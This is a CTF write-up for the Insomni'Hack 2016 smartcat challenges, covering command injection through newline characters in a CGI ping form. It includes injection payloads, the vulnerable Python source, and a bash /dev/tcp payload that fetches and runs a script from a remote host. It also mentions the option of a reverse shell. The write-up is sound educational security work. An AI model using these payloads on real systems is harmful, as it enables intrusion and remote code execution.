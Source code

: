 ```yaml
---
title:      Insomni'Hack Teaser 2016 - smartcat
pubDate:       January 16 2016 01:25:00
description:    Thou shalt not use blacklists!
categories: InsomniHack Web
author:     pogliamarci
heroImage: /writeup_images/insomnihack.png
tags:
 - Insomni'Hack
 - Web
---
```


In the smartcat challenge, we were given a tiny web
application with just a single functionality: a form that allows
to remotely ping an arbitrary host (yeah, that is the most classical
example of shell command injection!).
The challenge is divided in two parts (smartcat1 and smartcat2).
Although not difficult, it was quite fun, especially the second part.




### smartcat1 (50 points)

> Damn it, that stupid smart cat litter is broken again! Now only the debug interface is available [here](http://smartcat.insomnihack.ch/cgi-bin/index.cgi) and this stupid thing only permits one ping to be sent! I know my contract number is stored somewhere on that interface but I can't find it and this is the only available page! Please have a look and get this info for me!

Pointing a browser to the debug interface, we are greeted with a form that
accepts a single parameter and
prints what seems the output of the Linux `ping` command. In fact, pinging
a non-existent host gives the message `Error running ping -c 1`.
Trying a trivial injection fails, and the error reveals that there is a blacklist
of allowed characters in the request string.
Good, otherwise the challenge would not have been fun at all!

After a few tries, we notice that the newline character (`0x0A`) is not blacklisted:
we are able to retrieve the path and content of the current directory with a POST
request to `index.cgi`, using `%0apwd%0als` as the `dest` parameter (i.e., the host to ping).
This leads to this output:

    /var/www/cgi-bin
    index.cgi
    there

Likely, the flag is in `there`, which is a directory. Unfortunately, the whitespace
character is blacklisted, so can't use the ls command to list the contents.
To overcome this issue, we used `find` (without any argument) to recurse into
the subdirectories of the current directory and list their content.
Doing a request with `dest=%0afind` as a parameter leads to:

    .
    ./index.cgi
    ./there
    ./there/is
    ./there/is/your
    ./there/is/your/flag
    ./there/is/your/flag/or
    ./there/is/your/flag/or/maybe
    ./there/is/your/flag/or/maybe/not
    ./there/is/your/flag/or/maybe/not/what
    ./there/is/your/flag/or/maybe/not/what/do
    ./there/is/your/flag/or/maybe/not/what/do/you
    ./there/is/your/flag/or/maybe/not/what/do/you/think
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag

... and finally we just (smart)cat the flag: `dest=dest=%0acat<there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`

```html
<p>Ping results:</p><br/>
  <pre>INS{warm_kitty_smelly_kitty_flush_flush_flush}
</pre>
```

By the way, using cat we can also retrieve the web application source code (`dest=%0acat<index.cgi`).
It is a simple Python CGI script, which filters the input according to a blacklist:

    blacklist = " $;&|({`\t"

and then passes it to the `ping` command without further sanitization:

    results = subprocess.check_output("ping -c 1 "+dest, shell=True)

### smartcat2 (50 points)

> Almost there, but now you should be able to do better than a cat (sorry about the pun). I'm sure you can leverage the previous bug to get a shell. Go on [that debug interface](http://smartcat.insomnihack.ch/cgi-bin/index.cgi) again and read the flag in /home/smartcat/

Now we are told that the flag is in `/home/smartcat`.
As we can't use whitespaces, we need a smarter way to `cd` to that directory and list the content: using `dest=%0aHOME=/home/smartcat%0acd%0als` does the trick, and reveals that the directory contains two files:

    flag2
    readflag

We don't have the permissions to read `flag2`, but we can read and execute `readflag` (which is an executable binary).
Running it, we are greeted with this message:

> Almost there... just trying to make sure you can execute arbitrary commands....
Write 'Give me a...' on my stdin, wait 2 seconds, and then write '... flag!'.
Do not include the quotes. Each part is a different line.

At this point, we decided to use some bash-fu to retrieve and execute
a file from a remote host.
We used the `/dev/tcp` bashism to retrieve a script from an remote host, and give it
as an input to `bash`:

```bash
bash << EOF
bash < /dev/tcp/127.0.0.1/9000
EOF
ls
```

a.k.a. `dest=%0Abash<<EOF%0Abash</dev/tcp/127.0.0.1/9000%0AEOF%0Als`.
We terminate the command with `ls` so that the CGI application receives a successful return code in any case.
Instead of 127.0.0.1, we put the address of a publicly-accessible host
which was serving the following file on TCP port 9000:

```bash
#!/bin/bash

cd /home/smartcat
(
   echo "Give me a..."
   sleep 2
   echo "... flag!"
) | ./readflag
```

That was it. And the flag is...

    Flag:
                ___
            .-"; ! ;"-.
          .'!  : | :  !`.
         /\  ! : ! : !  /\
        /\ |  ! :|: !  | /\
       (  \ \ ; :!: ; / /  )
      ( `. \ | !:|:! | / .' )
      (`. \ \ \!:|:!/ / / .')
       \ `.`.\ |!|! |/,'.' /
        `._`.\\\!!!// .'_.'
           `.`.\\|//.'.'
            |`._`n'_.'|  hjw
            "----^----"
    
    INS{shells_are _way_better_than_cats}

Of course, with the same trick, we could also have launched an interactive reverse shell and read the flag from there :-)
